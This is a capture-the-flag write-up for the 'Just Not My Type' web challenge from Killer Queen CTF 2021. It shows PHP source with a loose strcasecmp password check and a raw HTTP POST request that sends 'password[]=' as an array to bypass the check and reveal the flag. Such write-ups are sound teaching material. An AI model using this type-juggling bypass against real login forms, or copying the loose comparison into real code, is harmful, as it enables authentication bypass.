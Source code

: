 # Killer Queen CTF 2021

Completed: Yes
Platform: CTFtime

# Web

## Just Not My Type

```php
<h1>I just don't think we're compatible</h1>

<?php
$FLAG = "shhhh you don't get to see this locally";

if ($_SERVER['REQUEST_METHOD'] === 'POST') 
{
    $password = $_POST["password"];
    if (strcasecmp($password, $FLAG) == 0) 
    {
        echo $FLAG;
    } 
    else 
    {
        echo "That's the wrong password!";
    }
}
?>

<form method="POST">
    Password
    <input type="password" name="password">
    <input type="submit">
</form>
```

The interesting function for us is `strcasecmp`. Found some tricks on HackTricks: [https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#strcmp-strcasecmp](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#strcmp-strcasecmp). Also, official documentation on the function: [https://www.php.net/manual/en/function.strcasecmp.php](https://www.php.net/manual/en/function.strcasecmp.php).

The trick is that if we supply to our variable empty array and not a string, we will be able to bypass this if statement and get the flag. Let's check it!

request:

```
POST / HTTP/1.1
Host: 143.198.184.186:7000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://143.198.184.186:7000
Connection: close
Referer: http://143.198.184.186:7000/
Upgrade-Insecure-Requests: 1

password[]=
```
